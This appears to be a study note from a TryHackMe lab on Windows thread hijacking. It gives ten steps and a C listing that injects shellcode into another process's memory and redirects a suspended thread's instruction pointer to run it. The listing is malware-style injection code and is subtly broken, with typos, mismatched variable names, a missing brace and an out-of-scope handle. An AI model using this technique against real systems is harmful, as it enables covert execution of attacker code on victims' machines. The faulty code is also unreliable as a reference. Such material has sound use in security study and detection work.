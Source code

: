 # Windows Thread Hijacking

1.  Locate and open a target process to control.
2.  Allocate memory region for malicious code.
3.  Write malicious code to allocated memory.
4.  Identify the thread ID of the target thread to hijack.
5.  Open the target thread.
6.  Suspend the target thread.
7.  Obtain the thread context.
8.  Update the instruction pointer to the malicious code.
9.  Rewrite the target thread context.
10.  Resume the hijacked thread.

```c
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);

THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {

if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}

SuspendThread(hThread);


CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);


context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation

SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);

ResumeThread(
	hThread // Handle for the thread
);
```




## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)